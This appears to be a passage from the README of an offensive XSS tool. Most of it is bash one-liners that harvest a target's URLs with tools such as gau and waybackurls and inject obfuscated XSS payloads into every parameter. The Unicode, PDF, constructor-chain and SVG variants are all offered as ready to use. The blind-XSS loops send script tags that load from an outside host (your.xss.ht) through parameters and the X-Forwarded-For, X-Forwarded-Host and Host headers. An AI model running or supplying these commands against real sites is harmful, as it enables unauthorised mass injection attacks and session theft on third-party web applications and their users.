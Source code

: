 ### Enhanced OneLiners with Advanced Payloads
Our system automatically enhances traditional oneliners with GOD TIER techniques:

```bash
# Cuneiform XSS
waybackurls target.com | grep '=' | qsreplace '𒀀=alert,𒉺=!𒀀+𒀀'

# Unicode Zero-Width
gau target.com | grep '=' | qsreplace 'ale‌rt(1)'

# PDF XSS
gospider -s target.com | grep '=' | qsreplace '%PDF-1.4%0A1%200%20obj%3C%3C/Type/Catalog/Pages%202%200%20R/OpenAction%3C%3C/Type/Action/S/JavaScript/JS(alert(\\'XSS\\'))%3E%3E%3E%3E'

# Constructor Chain
gau target.com | grep '=' | qsreplace 'constructor[constructor](alert(1))()'

# SVG xlink:href
gau target.com | grep '=' | qsreplace '"><svg><use href="#x"></use><symbol id="x"><foreignObject><iframe src="javascript:alert(1)"></iframe></foreignObject></symbol></svg>'
```

## 🎯 Blind XSS Techniques

### Parameter Injection
```bash
# BXSS in Parameters
gau target.com | grep "&" | head -20 | while read url; do curl -s "$url" -d 'test="><script src=https://your.xss.ht></script>' >/dev/null 2>&1; echo "BXSS payload sent to: $url"; done

# BXSS in Headers
echo target.com | httpx -silent | while read url; do
    curl -s -L "$url" -H 'X-Forwarded-For: "><script src=https://your.xss.ht></script>' >/dev/null 2>&1
    curl -s -L "$url" -H 'X-Forwarded-Host: "><script src=https://your.xss.ht></script>' >/dev/null 2>&1
    curl -s -L "$url" -H 'Host: "><script src=https://your.xss.ht></script>' >/dev/null 2>&1
    echo "BXSS headers sent to: $url"
done
```

## 🧪 Advanced Techniques

### DOM-Based XSS
```bash
# DOM XSS Hunting
gau target.com | grep -E "(hash|fragment|location)" | qsreplace '"><img src=x onerror=alert(document.domain)>'

# PostMessage XSS
gau target.com | while read url; do curl -s "$url" | grep -q "postMessage" && echo "PostMessage found: $url"; done
```
